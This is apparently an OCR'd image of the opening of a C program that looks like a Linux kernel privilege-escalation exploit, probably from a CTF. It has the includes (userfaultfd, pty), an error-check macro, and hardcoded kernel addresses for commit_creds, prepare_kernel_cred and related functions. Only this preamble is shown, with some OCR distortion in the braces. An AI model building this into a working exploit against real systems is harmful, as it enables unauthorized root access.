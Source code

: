 #include &lt;errno.h&gt;

#include &lt;fcntl.h&gt;

#include &lt;linux/fs.h&gt;

#include &lt;linux/userfaultfd.h&gt;

#include &lt;poll.h&gt;

#include &lt;pthread.h&gt;

#include &lt;sched.h&gt;

#include &lt;semaphore.h&gt;

#include &lt;stdint.h&gt;

#include &lt;stdio.h&gt;

#include &lt;stdlib.h&gt;

#include &lt;string.h&gt;

#include &lt;sys/ioctl.h&gt;

#include &lt;sys/mman.h&gt;

#include &lt;sys/stat.h&gt;

#include &lt;sys/syscall.h&gt;

#include &lt;sys/types.h&gt;

#include &lt;sys/wait.h&gt;

#include &lt;unistd.h&gt;

#include &lt;pty.h&gt;

​

#define CHECK(expr)                                                            \

  if ((expr) == -1) `{`                                                          \

    do `{`                                                                       \

      perror(#expr);                                                           \

      exit(EXIT_FAILURE);                                                      \

    `}` while (0);                                                               \

  `}`

​

const uint64_t v_prepare_kernel_cred = 0xFFFFFFFF810A9EF0;

const uint64_t v_prepare_creds = 0xFFFFFFFF810A9D60;

const uint64_t v_commit_creds = 0xFFFFFFFF810A9B40;

const uint64_t v_work_for_cpu_fn = 0xFFFFFFFF8109EB90;
